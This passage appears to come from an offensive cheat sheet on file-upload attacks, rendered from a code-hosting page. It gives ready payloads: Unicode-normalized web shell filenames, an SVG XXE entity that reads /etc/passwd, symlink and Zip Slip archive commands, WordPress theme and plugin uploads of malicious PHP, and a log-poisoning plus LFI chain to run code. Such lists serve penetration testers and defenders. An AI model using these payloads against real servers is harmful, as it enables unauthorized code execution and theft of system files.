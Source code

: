 #### Unicode Normalization
```
ＳｈＥＬＬ.php -> SHELL.php
shell.ｐｈｐ -> shell.php
```

### 2. File Upload + XXE Attack
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<svg xmlns="http://www.w3.org/2000/svg">
  <text font-size="15" x="0" y="16">&xxe;</text>
</svg>
```

### 3. ZIP-based Attacks

#### Upload and extract archive
```
# Create a symbolic link to sensitive file
ln -s /etc/passwd link
# Zip the link
zip --symlinks archive.zip link
# Upload and extract on server
```

#### Zip Slip
```
# Create zip with path traversal filenames
zip archive.zip ../../../../etc/malicious.php
```

## Exploitation Techniques by Framework

### WordPress

```
# Theme upload
Zip a malicious PHP file into a theme structure
Upload via Appearance > Themes > Add New > Upload

# Plugin upload
Zip a malicious PHP file into a plugin structure
Upload via Plugins > Add New > Upload Plugin

# Media bypass (older versions)
Upload PHP file with .jpg extension and double extension
```

### PHP Applications

```
# LFI + Upload Combo
1. Upload malicious code to log file (e.g., User-Agent)
2. Use LFI vulnerability to include log file
3. Execute payload

# PHP Filter Chain
chainable gadgets for exploitation, especially with phar:// wrapper
```
